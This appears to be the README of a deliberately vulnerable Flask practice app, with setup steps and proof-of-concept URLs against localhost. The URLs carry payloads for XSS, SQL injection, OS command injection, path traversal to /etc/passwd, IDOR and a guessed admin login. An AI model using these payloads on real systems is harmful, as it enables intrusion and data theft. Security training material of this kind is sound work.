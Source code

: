 ### Инструкция по сборке и запуску приложения

pip install flask

Run on kali linux or another linux dist

python3 vulnerable-flask-app.py

### Proof of Concept

# xss
http://127.0.0.1:8081/xss?name=<script>alert('xss')</script>

# idor
http://127.0.0.1:8081/users?id=1 

# sqli
http://127.0.0.1:8081/user/' OR 1=1 --

# os command injection
http://127.0.0.1:8081/os_inj?hostname=id

# path traversal
http://127.0.0.1:8081/read_file?filename=/../../../../../../etc/passwd

# brute force
http://127.0.0.1:8081/login?username=admin&password=superadmin
...

### Дополнительные комментарии
> Опциональный раздел

...
